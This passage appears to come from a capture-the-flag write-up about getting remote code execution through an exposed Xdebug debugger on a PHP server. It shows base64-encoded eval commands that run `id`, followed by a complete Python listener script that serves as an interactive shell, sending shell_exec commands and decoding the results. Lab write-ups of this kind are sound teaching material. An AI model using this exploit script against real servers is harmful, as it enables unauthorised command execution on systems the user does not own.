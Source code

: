     Waiting for debug server to connect on port 9000.



Now I'll trigger the curl, and there's a connection:



    Waiting for debug server to connect on port 9000.
    Connect from 172.30.0.1:51018
    DBGp/1.0: Xdebug 2.6.0 — For PHP 7.2.1-1ubuntu2
    Debugging file:///var/www.md/info.php (ID: 43/0xdf)
    (cmd)



The command syntax is weird. There's an `eval` command, and the syntax
is `eval -i [id] -- {base64 encoded command}`. So if I wanted to run
`id`, first I need to encode the PHP:



    oxdf@parrot$ echo 'system("id");' | base64
    c3lzdGVtKCJpZCIpOwo=



And now send it:



    (cmd) eval -i 1 -- c3lzdGVtKCJpZCIpOwo=;
    1 | eval
    1 | string : uid=33(www-data) gid=33(www-data) groups=33(www-data)



Still, as clunky as that is, it's RCE.

#### Script

I'll write a short Python script that will handle this connection, get a
command, decode the response, and print it:



    #!/usr/bin/env python    
        
    import base64    
    import re    
    import socket    
        

    res_re = re.compile(r'\<\!\[CDATA\[([A-Za-z0-9+/]+={0,2})\]\]\>')    
    ip_port = ('0.0.0.0', 9000)    
    sk = socket.socket()
    sk.bind(ip_port)
    sk.listen(10)
    conn, addr = sk.accept()
    client_data = conn.recv(1024)

    while  True:
        cmd = input ('>> ')
        cmdstr = f'shell_exec("{cmd}");'.encode('ascii')
        conn.sendall(b'eval -i 1 -- ' + base64.b64encode(cmdstr) + b'\x00')
        resp = conn.recv(1024)
        try:
            encoded_res = res_re.search(resp.decode()).group(1)
            print(base64.b64decode(encoded_res.encode()).decode().strip())
        except AttributeError:
            pass  
